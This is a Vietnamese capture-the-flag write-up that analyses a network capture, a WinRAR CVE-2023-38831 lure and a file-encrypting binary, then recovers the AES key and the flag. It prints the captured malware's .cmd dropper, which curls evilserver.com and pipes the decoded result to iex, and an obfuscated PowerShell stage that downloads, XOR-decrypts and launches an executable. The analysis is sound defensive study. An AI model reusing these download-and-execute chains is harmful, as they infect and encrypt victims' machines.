# ASCIS2023_Guessing

> Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.

## [0]. Digital Forensics

- Giải nén file.zip được challenges cung cấp ta nhận được một file capture lưu lượng mạng `Pancham.pcapng` và một file ảnh `SensitiveData.png` bị lỗi

- Sử dụng `wireshark` để mở file pcap thì thấy các package lưu lượng mạng `HTTP` chứa các file dữ liệu như `.zip, .png, .exe` nên mình export ra để tiếp tục phân tích.



- Trong các file có được xuất hiện một file nén `PanCham.zip` và khi tiếp tục giải nén thì được các file sau:



- Từ các file trên ta dễ dàng nhận ra đây là CVE winrar khá nooit tiếng gần đây - `CVE-2023-38831`. Phân tích nội dung file `Pancham.pdf .cmd`:

```bat
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

- File này sẽ tải xuống file ảnh `useless.png`, decode ra và iex để thực thi. Đồng thời ngay sau đó sẽ pop up file `Pancham.pdf` để đánh lừa người dùng.

- Decode nội dung file `useless.png` và ta có được 1 script powershell `encoded_ps.ps1` bị obfuscate:



- Mình dùng `PSDecode` để deobfuscate (https://github.com/R3MRUM/PSDecode):

```ps1
PSDecode -dump -beautify -verbose .\encoded_ps.ps1
```



```ps1
  SV 4taH  ( [tyPe]'bITconvERtER') ;  .'SeT-IteM'  vaRIABLE:4jb7 ([tYpe]'SYSTEm.Io.fIle' );  .'Invoke-WebRequest' 'http://evilserver.com:8080/PanCham.exe' -OutFile "$env:TEMP\panpan.exe"
${FiLE1_b} =  ( .Dir  vARIaBle:4JB7  ).VaLue::'ReadAllBytes'.Invoke("$env:TEMP\panpan.exe")
${kEy_B} =   ( .DIR ("VaRIabLE:4jB7") ).value::'ReadAllBytes'.Invoke(("$env:USERPROFILE\Documents\Finance "+'Report'))
for(${I}=0; ${i} -lt 0x300 ; ${I}++)
{
    if((${filE1_B}[${I}] -eq 0x2e) -and (${fILe1_b}[${I}+1] -eq 0x74)-and (${FIlE1_B}[${i}+2] -eq 0x65)-and (${filE1_B}[${i}+3] -eq 0x78)-and (${fILE1_b}[${i}+4] -eq 0x74)){
        ${OFf} =   (&'chIldITem'  vARiABLE:4taH).VAluE::"T`oiNt`32"([byte[]](${fILe1_b}[${i}+0x14],${filE1_b}[${I}+0x15],${fIle1_B}[${I}+0x16],${FILE1_B}[${i}+0x17]),0)
        ${SiZe} =   $4taH::"T`oIN`T32"([byte[]](${FIlE1_b}[${I}+0x10],${File1_b}[${i}+0x11],${FILE1_B}[${I}+0x12],${fILE1_b}[${i}+0x13]),0)
        ${sIZe} = ${SIZe} / 2
        break
    }
}
for(${I}=${oFf}; ${i} -lt ${oFf} + ${sizE} ; ${I}++){
    ${FIlE1_b}[${I}] = ${file1_B}[${I}] -bxor ${key_b}[${i} % ${KeY_b}.CoUNt]
}
 (Gi  vaRiAble:4Jb7  ).vaLue::'WriteAllBytes'.Invoke("$env:TEMP\panpan.exe", ${fIle1_b})
.'Start-Process' "$env:TEMP\panpan.exe"
```

- Script powershell này thực hiện tải xuống chương trình `PanCham.exe` sau đó đổi tên và lưu tại `$env:TEMP\panpan.exe`, tiếp theo là mở file `$env:USERPROFILE\Documents\Finance Report` và sử dụng nội dung làm key.

  - Mảng byte thứ nhất - file `panpan.exe`: gán với nội dung của file `panpan.exe` dưới dạng một mảng các byte.
  - Mảng byte thứ hai - file `Finance Report`: tạo ra từ nội dung của file có đường dẫn `"$env:USERPROFILE\Documents\Finance Report"` dưới dạng một mảng các byte. Đây là một khóa sẽ được sử dụng để giải mã một phần của file `panpan.exe`.
  - Vòng lặp để tìm chuỗi byte `0x2e 0x74 0x65 0x78 0x74` - tương ứng với phần `.text`, Nếu chuỗi này được tìm thấy, offset (`${OFf}`) và kích thước (`${SiZe}`) của phần cần giải mã được lấy ra. Sau đó, vòng lặp kết thúc với lệnh `break`.
    
  - Đối chiếu với mã hex trong `HxD` thì `${OFf}` = 0x400 = 1024 và `${SiZe}` = 0xf600/2 = 31488.
  - Vòng lặp thứ hai mục đích là giải mã một phần của file `panpan.exe` bằng phép XOR.
    - Vòng lặp chạy từ offset `${OFf}` (được tìm thấy trong vòng lặp trước) đến offset cộng với kích thước `${sizE}`.
    - Mỗi byte của file `panpan.exe` tại vị trí `${I}` được giải mã bằng phép XOR (`-bxor`) với byte tương ứng từ mảng `${kEy_b}` tại vị trí `${i} % ${KeY_b}.CoUNt`.

- Vấn đề ở đây là chúng ta không có file `"$env:USERPROFILE\Documents\Finance Report"`, mình đã thử với header của các file thu được từ file `pcapng` như `".pdf, .bat, .png"` nhưng không đúng nên mình bỏ hướng này.

- Tuy nhiên khi mình load `panpan.exe` vào `PEbear` thì thấy 5 byte đầu của phần entry point = 0x00 (điều này là rất khả nghi vì theo nguyên lí thì A xor A = 0) và mình cũng so sánh 5 byte đầu của entry point này với các file PE-64 bit khác.



- 5 byte đầu tiên của phần entry point ở các file PE-64 bit khác = `48 83 EC 28 E8`.



- Mình lấy khoảng 0x30 byte bắt đầu từ entry point của `panpan.exe` để XOR với 0x30 byte tương ứng của file PE-64bit mẫu `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15` thì được kết quả sau:



- Mình thấy chuỗi byte `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần nên đoán rằng đây có thể là key XOR nên viết script sau:

```python
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

- Kết quả là load chương trình vào IDA mà không bị lỗi, tiếp theo sẽ là phần reverse lại chương trình.



## [1]. Reverse Engineering

- Luồng thực thi cơ bản của chương trình như sau:

  - `1.` GET data từ root của evilserver (http://evilserver.com:8080), sau đó dùng 1 hàm để decode base64 (Data này dễ dàng thấy trong tcp stream 7).
  - `2.` XOR Decoded Data ở trên với 8 bytes lấy từ file `%ProgramFiles%\\Windows NT\\version.txt`.
  - `3.` Dùng kết quả xor này, sẽ dùng để tạo key, iv,... sau đó encrypt ảnh `SensitiveData.png` lại.

- Vì không có file `version.txt`, ta buộc phải tự tìm lại key.

  - Bắt đầu từ hàm `CryptImportKey`, như đã nói ở bước 3 thì kết quả của thuật toán XOR được dùng làm đối số thứ hai cho hàm này.
  - Hàm `CryptImportKey` sẽ phải khởi tạo `PUBLICKEYSTRUC BLOB` header trước, xong mới đến các thông tin khác.
    - https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptimportkey
    - https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/ns-wincrypt-publickeystruc
  - Dựa vào BLOB, mình sẽ khôi phục lại key (đối số thứ hai `pbData`) như này:
    ```c
        typedef struct _PUBLICKEYSTRUC {
        BYTE   bType;
        BYTE   bVersion;
        WORD   reserved;
        ALG_ID aiKeyAlg;
        } BLOBHEADER, PUBLICKEYSTRUC;
    ```
    - Đầu tiên là 1 byte `bType`. Theo tài liệu của microsoft, key blob type có 8 loại nên mình bruteforce vì không biết key là loại nào.
    - Thứ hai là 1 byte `bVersion`, mà theo mình đọc thì nó thường được set = 0x02.
      
    - Thứ ba là 2 bytes reversed, theo tài liệu của microsoft thì `must be set to zero`, vậy là 0x0000.
    - Cuối cùng là 4 bytes `ALG_ID` lưu dưới dạng little endian, như đã nói trên thì phía sau hàm `CryptImportKey` mình thấy có hàm `CryptSetKeyParam` khởi tạo các giá trị như `cipher mode, padding mode, iv,...` => Từ đó mình đoán rằng mã hóa này là `AES`, nhưng key length không rõ, nên mình sẽ thử `ALG_ID` của tất cả các loại length AES.

- Mình brute thử key và trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

```python
import base64

dec64 = base64.b64decode('XUxDTFUkT1V1TkNM2ExLZuoOt1hfQUB427Hr9Mk8GZkQ0vT2nMDIwS3/zR+A+XUhLfQS8kz7p6PcYej/')
dec64 = dec64[:8]
keytypels = [b'\x0C', b'\x09', b'\x08', b'\x07', b'\x06', b'\x0A', b'\x01', b'\x0B']

```



- Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08.

- Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:



- Key đầu hơi hơi có ý nghĩa, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.

- Sau khi xor mình được pbData mới sẽ là: `0802000010660000200000009d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53c5bb3a7478ba51be09b9e8f6892fabb3`.

  - > Mình tìm hiểu cả ngày cũng không hiểu đoạn thừa 20000000 sau blob là cái gì, nhưng nghĩ làm gì có key nào bắt đầu đầy 00 00 thế kia nên mình bỏ qua luôn.

- Dựa vào dòng 47 trong main, ta lấy `IV là 16 bytes cuối pbData`, còn `key` thì như nói trên mình skip đoạn `20000000` và lấy 32 bytes (AES-256), vừa hay là nó vừa khít length của pbData khai báo trong hàm `CryptImportKey`. Decrypt với iv và key như vậy, mình khôi phục lại được ảnh và lấy flag:
  - `IV`: `c5bb3a7478ba51be09b9e8f6892fabb3`.
  - `key`: `9d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53`.



- FLAG: `ASCIS{What?_PANCHAM_1s_3v0lving!}`.

## [2]. References

- https://github.com/NVex0/uWU/blob/main/ASCIS_2023/Quals/readme.md
